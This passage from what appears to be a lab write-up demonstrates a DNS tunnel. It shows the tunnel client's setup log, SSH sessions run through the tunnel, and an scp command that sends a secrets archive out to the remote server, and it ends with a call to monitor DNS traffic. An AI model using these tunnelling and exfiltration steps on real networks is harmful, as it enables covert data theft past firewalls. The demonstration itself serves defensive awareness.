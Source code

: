 ```
Using EDNS0 extension
DNS queries get changed to lowercase, keeping upstream codec Base32
No alternative downstream codec available, using default (Raw)
Switching to lazy mode for low-latency
Server switched to lazy mode
Autoprobing max downstream fragment size... (skip with -m fragsize)
768 ok.. 1152 ok.. ...1344 not ok.. ...1248 not ok.. ...1200 not ok.. 1176 ok.. 1188 ok.. will use 1188-2=1186
Setting downstream fragment size to max 1186...
Connection setup complete, transmitting data.
Detaching from terminal...
```
We have now setup a full DNS tunnel. So let's experiment:
```
# On the "server" SSH into the "client"
[root@ip-192-168-0-61 ~]# ssh -l vagrant 10.0.0.2
vagrant@10.0.0.2's password:
Last login: Wed Oct  4 22:56:35 2017 from 10.0.2.2
[vagrant@localhost ~]$
```
Oh S*&@!!!

```
# On the "client" SSH out to the "server" in AWS...
vagrant@localhost bin]# ssh -l centos -i ~/.ssh/iod -l centos 10.0.0.1
Last login: Wed Oct  4 22:59:12 2017 from 213.210.61.225
[centos@ip-192-168-0-61 ~]$
```
This ain't good....

```
# Client data exfiltration
vagrant@localhost ~]$ scp -i /tmp/iod /tmp/secrets.tgz centos@10.0.0.1:~
secrets.tgz                                     100%    0     0.0KB/s   00:00    
[vagrant@localhost ~]$

```
We're totally screwed now...

Conclusion
---
This is a very real, almost un-mitigated attack vector for business.  
A recent conference lecture at [IPEXPO](http://www.ipexpoeurope.com/) I attended surmised
that 91% of all attacks on business networks today used DNS exploits like this in some capacity.  
While only 1/3 of companies perform any kind of mitigation against such an attack.  
Yes this was all in the name of fun here but it isn't always the case!

As we can see, it is trivial to setup and gain a full, encrypted, bi-directional
stream between attacker and victim, yes it's slow (slower than dial up!) however
it _does_ exist and it _can_ be exploited by persons that are not pen testers or
crackers.  So let's get to plugging these holes up and monitor our DNS traffic
before it's too late!
